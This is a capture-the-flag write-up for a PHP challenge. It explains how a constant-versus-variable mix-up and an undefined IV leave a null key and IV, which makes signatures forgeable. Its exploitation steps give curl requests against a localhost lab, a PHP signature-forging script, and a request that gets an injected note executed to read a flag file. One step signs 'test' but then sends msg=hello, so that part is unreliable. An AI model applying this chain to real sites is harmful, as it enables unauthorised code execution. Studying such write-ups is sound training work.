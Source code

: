 # certay-revenge

**Description:**  
_“Probably you need to understand our language to get some of the superpowers?”_  
But it’s fixed now.

---

## Overview
The website contains the following PHP files:

- `login.php`
- `register.php`
- `dashboard.php`
- `post_note.php`

After registering and logging in, a user is shown a textarea. However, submitting any text appears to do nothing.

Let’s dive into the source code for more details.

---

## Source Code Analysis

- The `login.php`, `register.php`, and `post_note.php` files contain no significant vulnerabilities.
- The interesting logic lies in the `dashboard.php` and `config.php` files.
- The `config.php` file contains a dangerous function, which becomes critical in the context of the dashboard.

From `dashboard.php`, here are the notable code snippets:

```php
define('yek', $_SESSION['yek']);

function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}

custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash'];
```

---

## Technical Insight

### `define` vs Variable Declaration

**`define`:**

1. Used to declare constants (immutable values).
2. Constants do **not** start with `$`.
3. Constants are global and case-sensitive.
4. Cannot be changed or undefined once set.

**Regular Variable Declaration:**

1. Used to declare variables.
2. Variables **start with `$`**.
3. Can be reassigned.
4. Scope can vary: local, global, or static.

### Issue with IV in `openssl_encrypt`

If the IV is not properly passed to `openssl_encrypt()`:
- PHP pads it with null bytes (` `) if too short.
- If completely missing or incorrect (like `false`), it can result in unintended behavior and even insecure encryption.

---

## Key Vulnerabilities

### 1. Constant vs Variable Confusion
- `define('yek', $_SESSION['yek']);` defines a **constant** `yek`, but later code uses the **variable** `$yek`, which is uninitialized.
- As a result, `$yek` becomes `null`.

### 2. Undefined IV in `safe_sign()`
- The IV parameter (`iv`) is not defined in the function.
- If `$_GET['key']` is passed as an array, `safe_sign()` returns `false`.

### 3. Weak Encryption Parameters
In the `custom_sign()` call:
- `$key = null`
- `$iv = false`

This leads to:
- Key: effectively an empty string (because `null` is cast to `""`)
- IV: 16 null bytes (because `false` becomes an empty string, which gets padded)

This results in **predictable encryption** and allows the attacker to forge a valid hash.

---

## Exploitation Steps

### 1. Register an Account
```bash
curl -X POST -d "username=attacker&password=attacker" http://localhost:8080/register.php
```

### 2. Log In to Create a Session
```bash
curl -X POST -d "username=attacker&password=attacker" http://localhost:8080/login.php -c cookies.txt
```

### 3. Post a Malicious Note
```bash
curl -X POST -d "note=highlight_file('/tmp/flag.txt');" http://localhost:8080/post_note.php -b cookies.txt
```

### 4. Generate a Matching Hash to Bypass the Check

Create a PHP script:
```php
<?php
function custom_sign($data, $key, $vi) {
    return openssl_encrypt($data, 'aes-256-cbc', $key, 0, $vi);
}
echo custom_sign("test", null, false);
?>
```

This outputs a predictable signature because both key and IV are weak.

Let’s say it prints:
```
2HB5iFgiP0Vk00CxA/ZSew==
```

### 5. Bypass the Signature Check
```bash
curl "http://localhost:8080/dashboard.php?msg=hello&hash=2HB5iFgiP0Vk00CxA/ZSew==&key[]=" -b cookies.txt
```

Because the signature matches, the malicious `note` gets executed.

---

## FLAG

![flag](https://github.com/user-attachments/assets/c2f5a464-cbec-4445-92a7-2663f5e0ae53)

---

**Solved with the best teammate: [Logan0x](https://github.com/Logan0x)**
